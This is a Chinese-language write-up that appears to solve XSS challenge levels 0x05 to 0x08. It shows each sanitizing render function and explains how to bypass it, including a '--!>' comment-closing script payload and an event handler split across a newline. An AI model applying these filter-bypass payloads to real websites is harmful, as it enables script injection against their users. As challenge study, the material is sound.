 ![image-20220116145138995](D:\Code\pojo\Blog\BlogHexo\public\img\xss.png)





#### 0x05

考验的是对于注释怎么解决

```php
function render (input) {
  input = input.replace(/-->/g, '😂')
  return '<!-- ' + input + ' -->'
}
```

可以使用--!>来进行闭合

```html
--!><script>alert(1)</script>
```



#### 0x06

考验的HTML的语法松散性,即换行也可继续赋值,这里他的正则是匹配了所有的auto，on开头=结尾还有>都会变被替换为_

```php
function render (input) {
  input = input.replace(/auto|on.*=|>/ig, '_')
  return `<input value=1 ${input} type="text">`
}
```

```html
onclick
="alert(1)"
```



#### 0x07

正则,匹配所有的闭合符号

```php
function render (input) {
  const stripTagsRe = /<\/?[^>]+>/gi

  input = input.replace(stripTagsRe, '')
  return `<article>${input}</article>`
}
```

#### 0x08

这里的正则不太严谨,只屏蔽\</style\>我们只需要在最后换行就可以躲过了

```php
function render (src) {
  src = src.replace(/<\/style>/ig, '/* \u574F\u4EBA */')
  return `
    <style>
      ${src}
    </style>
  `
}
```
